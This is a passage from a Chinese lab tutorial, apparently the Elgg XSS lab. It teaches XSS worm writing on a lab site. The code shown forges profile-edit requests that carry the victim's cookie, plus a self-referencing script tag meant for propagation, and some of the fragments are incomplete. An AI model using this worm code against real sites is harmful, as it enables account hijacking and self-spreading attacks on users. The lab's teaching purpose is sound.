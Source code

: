 蠕虫可以用来打广告、刷流量、挂马、恶作剧、破坏网上数据、实施DDoS攻击等等。

#### XSS蠕虫的学习 ###

首先我么需要理解一下Ajax框架。框架代码如下：

```
    var Ajax=null;
    // 构建http请求的头信息
    Ajax=new XMLHttpRequest();
    Ajax.open("POST","http://www.xsslabelgg.com/action/profile/edit",true);
    Ajax.setRequestHeader("Host","www.xsslabelgg.com");
    Ajax.setRequestHeader("Keep-Alive","300");
    Ajax.setRequestHeader("Connection","keep-alive");
    Ajax.setRequestHeader("Cookie",document.cookie);
    Ajax.setRequestHeader("Content-Type","application/x-www-form-urlencoded");
    // 构建http请求内容。 内容的格式可以从浏览器插件LiveHTTPHeaders中知道长什么样
    var content="name=...&company=&..."; // 这是你需要填写的内容
    // 发送http POST请求。
    Ajax.send(content);
```

使用 `cd /var/www/XSS/elgg` 切换到 /var/www/XSS/elgg 目录下，然后新建一个test.js的文件；这个文件中的内容是上面的Ajax框架代码：

```
 sudo vim test.js
```

![3.5-1](https://dn-anything-about-doc.qbox.me/userid9094labid937time1430793258202?watermark/1/image/aHR0cDovL3N5bC1zdGF0aWMucWluaXVkbi5jb20vaW1nL3dhdGVybWFyay5wbmc=/dissolve/60/gravity/SouthEast/dx/0/dy/10)

然后我们再创建一个test1.js的文件，写一个xss蠕虫代码：

```
 sudo vim test1.js
```

![3.5-2](https://dn-anything-about-doc.qbox.me/userid9094labid937time1430793277872?watermark/1/image/aHR0cDovL3N5bC1zdGF0aWMucWluaXVkbi5jb20vaW1nL3dhdGVybWFyay5wbmc=/dissolve/60/gravity/SouthEast/dx/0/dy/10)

这里是代码：

```
    var on=new Ajax.PeriodicalUpdater("edit",
    "http://www.xsslabelgg.com/action/profile/edit",
    //定义一个新的Ajax.PeriodicalUpdater
    {method:'get',onSuccess:function(transport){alert(transport.responseText);},
    frequence:1000}
    //请求方式为get，频率为1000
```

上面的蠕虫代码不能够进行自动传播，这样达不到我们的需求；我们需要编写一个可以自动传播的xss蠕虫病毒，下面这段代码让蠕虫可以自动传播：

```
    <script id=worm>//定义js的id为worm
    var strCode = document.getElementById("worm");
    //找到元素id
	alert(strCode.innerHTML);
    </script>
```
